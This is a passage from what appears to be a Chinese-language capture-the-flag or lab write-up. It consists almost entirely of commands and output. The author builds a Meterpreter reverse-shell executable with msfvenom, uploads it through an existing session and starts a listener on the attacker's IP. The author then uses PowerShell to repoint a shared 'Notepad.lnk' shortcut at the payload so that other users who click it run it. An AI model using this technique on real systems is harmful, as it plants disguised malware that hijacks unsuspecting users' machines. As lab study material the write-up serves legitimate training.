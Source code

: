 可能存在其他用户点击的可能性，部署一个负载，并创建恶意快捷方式

生成载荷

```shell
┌──(randark㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=8888 -f exe > 10.10.16.8-8888.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

投放

```shell
meterpreter > upload 10.10.16.8-8888.exe
[*] Uploading  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Completed  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
```

开启监听

```shell
┌──(randark㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
```

创建恶意快捷方式

```powershell
meterpreter > shell
Process 2516 created.
Channel 5 created.
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\htdocs> $objShell = New-Object -ComObject WScript.Shell
$objShell = New-Object -ComObject WScript.Shell
PS C:\xampp\htdocs> $lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
$lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
PS C:\xampp\htdocs> $lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"              
$lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"
PS C:\xampp\htdocs> $lnk.Save()
$lnk.Save()
```